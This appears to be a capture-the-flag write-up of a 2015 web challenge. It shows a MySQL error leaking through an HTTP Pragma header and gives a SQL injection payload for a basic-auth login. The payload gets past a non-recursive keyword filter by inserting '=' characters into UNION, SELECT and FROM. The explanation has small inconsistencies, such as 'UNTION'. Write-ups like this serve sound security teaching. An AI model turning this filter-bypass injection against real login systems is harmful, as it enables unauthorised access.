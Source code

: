 # Cyber Security Challenge 2015: NSA

**Category:** Web Application Security
**Points:** 50
**Description:**

> We heard rumors that the website below is owned by the NSA. There doesn’t seem to be much to it though… Maybe it’s just a placeholder?
>
> URL: 37.187.249.84:20005

## Write-up

```bash
$ curl 'http://37.187.249.84:20005/robots.txt'
# robots.txt for Nviso Realm

User-agent: *
Disallow: /css
Disallow: /js
Disallow: /imgs
```

<http://37.187.249.84:20005/css/> uses basic access authentication and prompts for a username and password.

Although basic access is usually implemented by a .htaccess file, it can just as easily be implemented in PHP by using the correct headers. This basic access is vulnerable to a SQL injection attack. When submitting `"'` as the value for the login and password, the server returns the following response:
```
HTTP/1.1 401 Unauthorized
Date: Mon, 16 Mar 2015 10:38:03 GMT
Server: Apache/2.2.22 (Debian)
X-Powered-By: PHP/5.4.36-0+deb7u3
WWW-Authenticate: Basic realm="Nviso Realm"
Pragma: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"''' at line 1
Vary: Accept-Encoding
Content-Length: 13
Content-Type: text/html

Access Denied
```
This pragma header shows us a MySQL error. The login form is vulnerable, but it does use some input filtering. For example, all MySQL keywords are filtered, but it isn't done recursively. The following input will result in a valid login:
```sql
usr: ' UN=IO=N SEL=ECT * FR=OM usorers; # '
pwd: '
```
This works because the equals sign (=) is removed after the input filter checks for UNTION/SELECT or FROM.

The webserver returns `Congratulations! The flag is basic_auth_is_sooo_last_century`


## Other write-ups and resources

* none yet
